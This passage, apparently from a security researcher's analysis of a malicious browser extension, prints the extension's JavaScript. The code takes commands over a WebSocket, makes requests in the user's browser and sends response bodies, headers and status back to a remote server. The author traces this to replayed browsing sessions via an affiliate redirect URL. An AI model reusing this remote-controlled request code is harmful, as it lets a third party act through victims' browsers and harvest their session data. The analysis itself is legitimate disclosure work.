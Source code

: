 ```js
var __create = url => {
  const socket = new this.WebSocket(url);
  const buffer = {};
  socket.onmessage = event => {
    let message = event.data.arrayBuffer ? event.data : JSON.parse(event.data);
    this.stepModifiedMatcher(socket, buffer, message)
  };
};

stepModifiedMatcher =
  async (socket, buffer, message) => {
    if (message.arrayBuffer)
      buffer[1] = message.arrayBuffer();
    else {
      let [url, options] = message;
      if (buffer[1]) {
        options.body = await buffer[1];
        buffer[1] = null;
      }

      let response = await this.fetch(url, options);
      let data = await Promise.all([
        !message[3] ? response.arrayBuffer() : false,
        JSON.stringify([...response.headers.entries()]),
        response.status,
        response.url,
        response.redirected,
      ]);
      for (const entry of data) {
        if (socket.readyState === 1) {
          socket.send(entry);
        }
      }
    }
  };
```

This receives instructions from the web socket connection on what requests to make. Upon success the extension sends information like response text, HTTP headers and HTTP status back to the server.

What is this good for? Before I could observe this code in action I was left guessing. Is this an elaborate approach to de-anonymize users? On some websites their name will be right there in the server response. Or is this about session hijacking? There would be session cookies in the headers and CSRF tokens in the response body, so the extension could be instrumented to perform whatever actions necessary on behalf of the attackers – like initiating a money transfer once the user logs into their PayPay account.

The reality turned out to be far more mundane. When I finally managed to trigger this functionality on the Ashley Madison website, I saw the extension perform lots of web requests. Apparently, it was replaying a browsing session that was recorded two days earlier with the Firefox browser. The entry point of this session: `https://api.sslcertifications.org/v1/redirect?advertiserId=11EE385A29E861E389DA14DDA9D518B0&adspaceId=11EE4BCA2BF782C589DA14DDA9D518B0&customId=505` (redirecting to `ashleymadison.com`).
